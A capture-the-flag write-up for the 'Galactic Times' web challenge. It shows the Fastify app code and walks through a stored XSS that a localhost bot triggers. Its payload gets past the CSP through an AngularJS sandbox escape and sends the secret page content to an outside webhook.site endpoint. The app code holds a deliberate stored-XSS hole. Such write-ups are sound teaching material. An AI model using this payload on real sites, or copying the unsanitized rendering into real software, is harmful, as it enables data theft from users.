


# The Galactic Times
## Description
The Galactic Times is a monthly Alien newspaper that focuses on news from around the Galaxy. This month's issue is focused on the Human race and contains some very controversial articles. The newspaper reportedly contains a restricted endpoint with some Alien secrets. Can you find a way to view the forbidden pages?

## Files
Provided docker environment.

## Looking around
This is the website lmao 😂.


## Code

### `routes/index.js`
```js
const bot = require('../bot');
const fs = require('fs');

let db;

async function router (fastify, options) {
        fastify.get('/', async (request, reply) => {
                return reply.type('text/html').send(fs.readFileSync('views/index.html',{encoding:'utf8', flag:'r'}));
        });

        fastify.get('/alien', async (request, reply) => {
                if (request.ip != '127.0.0.1') {
                        return reply.code(401).send({ message: 'Only localhost is allowed'});
                }
                return reply.type('text/html').send(fs.readFileSync('views/alien.html',{encoding:'utf8', flag:'r'}));
        });

        fastify.get('/feedback', async (request, reply) => {
                return reply.type('text/html').send(fs.readFileSync('views/feedback.html',{encoding:'utf8', flag:'r'}));
        });

        fastify.post('/api/submit', async (request, reply) => {
                let { feedback } = request.body;

                if (feedback) {
                        return db.addFeedback(feedback)
                                .then(() => {
                                        bot.purgeData(db);
                                        reply.send({ message: 'The Galactic Federation has processed your feedback.' });
                                })
                                .catch(() => reply.send({ message: 'The Galactic Federation spaceship controller has crashed.', error: 1}));
                }

                return reply.send({ message: 'Missing parameters.', error: 1 });
        });

        fastify.get('/list', async (request, reply) => {
                if (request.ip != '127.0.0.1') {
                        return reply.code(401).send({ message: 'Only localhost is allowed'});
                }
                return await db.getFeedback()
                        .then(feedback => {
                                if (feedback) {
                                        return reply.view('views/list.pug', { feedback: feedback });
                                }
                                return reply.send({ message: 'The Galactic Federation archives appear to be empty.' });
                        })
                        .catch(() => {
                                return reply.send({ message: 'The Galactic Federation spaceship controller has crashed.' });
                        });
        });
}

module.exports = database => {
        db = database;
        return router;
};
```

### `database.js`
```js
const sqlite = require('sqlite-async');

class Database {
    constructor(db_file) {
        this.db_file = db_file;
        this.db = undefined;
    }
    
    async connect() {
        this.db = await sqlite.open(this.db_file);
    }

    async migrate() {
        return this.db.exec(`
            DROP TABLE IF EXISTS feedback;

            CREATE TABLE IF NOT EXISTS feedback (
                id         INTEGER      NOT NULL PRIMARY KEY AUTOINCREMENT,
                comment  VARCHAR(255) NOT NULL,
                created_at TIMESTAMP    DEFAULT CURRENT_TIMESTAMP
            );

            INSERT INTO feedback (comment) VALUES ('Issue #256 is the best issue so far. Keep up the good work.');
            INSERT INTO feedback (comment) VALUES ('Articles could be better. The memes are not very realistic.');
            INSERT INTO feedback (comment) VALUES ('This article is very specist. Humans are better than that.');
        `);
    }

    async addFeedback(comment) {
        return new Promise(async (resolve, reject) => {
            try {
                let stmt = await this.db.prepare('INSERT INTO feedback (comment) VALUES (?)');
                resolve(await stmt.run(comment));
            } catch(e) {
                reject(e);
            }
        });
    }

    async getFeedback() {
        return new Promise(async (resolve, reject) => {
            try {
                let stmt = await this.db.prepare('SELECT * FROM feedback');
                resolve(await stmt.all());
            } catch(e) {
                reject(e);
            }
        });
    }
}

module.exports = Database;
```

### `bot.js`
```js
const puppeteer = require('puppeteer');

const browser_options = {
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update'
    ]
};

async function purgeData(db){
    const browser = await puppeteer.launch(browser_options);
    const page = await browser.newPage();

    await page.goto('http://127.0.0.1:1337/list', {
        waitUntil: 'networkidle2'
    });

    await browser.close();
    await db.migrate();
};

module.exports = { purgeData };
```

### `views/alient.html`
```html
[REDACTED]
<aside>    
    <div>                                                                                             
        <div class="issue">⟟⌇⌇⎍⟒ #256</div>                                                            
        <div class="date">⎎⍀⟟⎅⏃⊬, 29 ⋔⏃⍀☊⊑, 2069</div>
        <div class="edition">CHTB{f4k3_fl4g_f0r_t3st1ng}</div>
    </div>                    
</aside>
[REDACTED]
```

## Methodology
We have to perform a `GET /alien` to get the flag which is in the `html`. However we will get blocked because the request is not coming from `127.0.0.1`. We can perform `POST /api/submit` to give feedback. This feedback gets saved in the database. After that `purgeData()` is called and the bot visits `http://127.0.0.1:1337/list`. This endpoint list all feedback including our recently added feedback. We cannot perform the `GET /list` ourselves because we will get blocked again due to `127.0.0.1` restriction. The added feedback is not sanitized therefore we can inject `html` tags without problems.

The idea here is to insert a feedback containing `XSS` `<script>` tags. The bot will open the `/list` and parse the page which contains our `XSS` payload which will execute. The `XSS` payload should perform a `GET /alien` (which is fine because the request is coming from localhost) and send the page `html` to our remote listening endpoint.

There is a problem. The server enforces `CSP`. Example.

```
Content-Security-Policy: default-src 'self';script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com/;style-src 'self' 'unsafe-inline' https://unpkg.com/nes.css/ https://fonts.googleapis.com/;font-src 'self' https://fonts.gstatic.com/;img-src 'self' data:;child-src 'none';object-src 'none'
```

For better understanding we can use [CSP Evaluator](https://csp-evaluator.withgoogle.com/).


There is unsafe-eval for `https://cdnjs.cloudflare.com`. [HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#third-party-endpoints-unsafe-eval) has a payload specifically for `cloudflare`, yay 🥳. The payload uses an `angular` scripts which is hosted on `cloudflare` with which we can perform `XHR` requests. With this we can perform a request (to `/alien`) and get the page content. Then we will send the page content to our remote endpoint.

On more problem is, that the `/alien` page contains weird characters and (probably) the method in the payload will crash when reading those characters. So we will only "grep" a string from the page cointaing `CHTB{.*}` using js method `match()`.

## Exploit
Be sure to substitute the `location` with your own remote endpoint. We use [webhook.site](https://webhook.site/).

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script><div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };var z=new XMLHttpRequest();z.onreadystatechange=function(){if (z.responseText) location="https://webhook.site/4b9d1f8b-6d9a-4973-9a27-b81b2eebbaae?a="+btoa(z.responseText.match(/CHTB{.*}/)[0])};z.open("GET","http://127.0.0.1:1337/alien",false);z.send();//');}} </div>
```

Sending payload...


We get a hit! 🙂


Parameter `a` contains `base64` encoded flag.

```
$ echo -n 'Q0hUQnt0aDNfd2gxdDNsMXN0M2RfQ05EX3N0cjFrM3NfYjRja30=' | base64 -d
CHTB{th3_wh1t3l1st3d_CND_str1k3s_b4ck}
```

## Flag
**CHTB{th3_wh1t3l1st3d_CND_str1k3s_b4ck}**